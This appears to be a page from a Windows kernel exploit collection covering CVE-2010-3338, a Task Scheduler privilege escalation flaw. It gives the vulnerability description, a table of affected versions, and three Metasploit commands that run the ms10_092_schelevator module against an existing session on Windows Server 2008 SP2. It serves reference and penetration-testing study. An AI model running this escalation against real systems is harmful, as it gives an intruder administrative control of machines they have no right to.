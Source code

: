 ### CVE-2010-3338

#### Describe

The Windows Task Scheduler in Microsoft Windows Vista SP1 and SP2, Windows Server 2008 Gold, SP2, and R2, and Windows 7 does not properly determine the security context of scheduled tasks, which allows local users to gain privileges via a crafted application, aka "Task Scheduler Vulnerability." NOTE: this might overlap CVE-2010-3888.

#### ImpactVersion

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         |        |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  |         |        |                    |
| Windows Server 2008 |                  | R2      |        |                    |
| Windows Vista       |                  |         | SP1    |                    |
| Windows Vista       |                  |         | SP2    |                    |

#### Utilization

Test system  Windows Server 2008 SP2 x86，Using the MSF to execute the following command, the X64 version MSF does not support

```
use exploit/windows/local/ms10_092_schelevator
set SESSION 2
run
```

![image-20200822234422637](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2010-3338_win2008_x86_msf.png)

Then it will be successful.

![image-20200822234608009](https://raw.github.com/Ascotbe/Image/master/Kernelhub/CVE-2010-3338_win2008_x86_msf2.png)

